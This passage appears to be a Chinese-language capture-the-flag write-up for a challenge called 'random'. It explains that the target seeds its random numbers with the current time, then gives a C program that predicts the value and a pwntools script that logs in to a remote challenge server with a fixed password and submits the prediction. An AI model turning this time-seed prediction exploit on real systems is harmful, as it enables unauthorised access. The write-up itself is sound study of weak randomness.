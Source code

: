 ### random

![image-20221006222434426](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221006222434426.png)

程序主体部分，可以看到随机数以时间为种子，那么只要是同一秒内执行的操作，就可以产生完全相同的随机数，而程序运行时间通常很短，因此直接编写C程序得到对应的随机数再进行交互即可。

C程序如下:

```c
#include<stdio.h>

int main()
{
    unsigned int x = time(0);
    srand(x);
    int a1 = rand();
    int a2 = rand()^a1;
    int a3 = rand();
    srand(a2^a3);
    rand();rand();rand();
    printf("%d\n",rand());
    return 0;
}
```

exp:

```python
#!/usr/bin/env python3
from pwn import *

io = process("./calc_time")
result = io.recvline(keepends=False)
print(result)
io = remote("43.136.137.17",3911)

#io = process("./random_num")

name = '123'
passwd = 'ls_4nyth1n9_7ruIy_R4nd0m?'+'\x00'

io.recvuntil("username: ".encode())
io.sendline(name.encode())
io.recvuntil('password: '.encode())
io.sendline(passwd.encode())
io.recvuntil("now.\n".encode())
io.send(result)

io.interactive()
```

### rop32
